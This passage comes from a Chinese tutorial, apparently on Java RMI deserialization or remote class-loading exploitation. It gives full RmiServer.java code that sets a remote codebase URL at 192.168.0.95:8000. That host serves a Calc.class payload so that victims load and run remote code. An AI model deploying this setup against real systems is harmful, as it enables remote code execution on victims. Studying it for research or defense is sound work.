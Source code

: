 ```
            // it will not get executed during the exp
            System.out.println("Enter getObjectInstance");
        } catch (Exception e) {
            // do nothing
        }
        return null;
    }
}
```

**创建 RMI 服务器类**

RmiServer.java

```
package rmi.server;
​
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.UnicastRemoteObject;
import rmi.api.imp.ServicesImpl;
import rmi.api.Services;
​
public class RmiServer {
    public static void main(String[] args) {
        try {
            ServicesImpl obj = new ServicesImpl();
            Services services = (Services) UnicastRemoteObject.exportObject(obj, 0);
            System.setProperty("java.rmi.server.codebase", "http://192.168.0.95:8000/");
​
            Registry reg;
            try {      
                reg = LocateRegistry.createRegistry(9999);
                System.out.println("java RMI registry created. port on 9999...");
            } catch (Exception e) {
                System.out.println("Using existing registry");
                reg = LocateRegistry.getRegistry();
            }            
            reg.bind("Services", services);
        } catch (RemoteException e) {
            e.printStackTrace();
        } catch (AlreadyBoundException e) {
            e.printStackTrace();
        }
    }
}
​
```

192.168.0.95 是 RMI 服务器的 IP，当 RMI 服务器将代码库设置为 192.168.0.95 时，它还用于托管 python web 服务器以提供 Calc.class 文件，并且您可以根据需要将其配置为另一个服务器 IP。
